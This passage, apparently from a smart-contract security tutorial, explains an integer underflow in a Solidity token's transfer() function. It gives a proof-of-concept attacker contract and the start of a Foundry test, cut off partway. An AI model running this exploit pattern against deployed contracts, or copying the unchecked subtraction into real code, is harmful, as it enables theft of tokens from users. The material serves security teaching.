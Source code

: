 ```solidity
}
```

🧠 **Why is this vulnerable?**  
If `msg.sender` has a balance of 0 and calls `transfer()`, `balances[msg.sender] -= amount;` underflows and wraps to `2^256 - amount`.

---

## ⚔️ Exploit Contract (PoC)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IVulnerableToken {
    function transfer(address to, uint256 amount) external;
    function balances(address user) external view returns (uint256);
}

contract OverflowAttacker {
    IVulnerableToken public target;

    constructor(address _target) public {
        target = IVulnerableToken(_target);
    }

    function attack() public {
        target.transfer(msg.sender, 1 ether); // attacker has 0 balance initially
    }

    function getBalance() public view returns (uint256) {
        return target.balances(msg.sender);
    }
}
```

### 🧪 Before/After Logs

You can call `getBalance()` before and after the `attack()` to observe the overflow.

---

## 🧬 Foundry-Based PoC

If you're using [Foundry](https://book.getfoundry.sh/), here’s how to write a test:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.0;
import "forge-std/Test.sol";

import "../src/VulnerableToken.sol";
import "../src/OverflowAttacker.sol";

contract OverflowTest is Test {
    VulnerableToken token;
    OverflowAttacker attacker;

    function setUp() public {
        token = new VulnerableToken();
        attacker = new OverflowAttacker(address(token));
    }

    function testUnderflowAttack() public {
```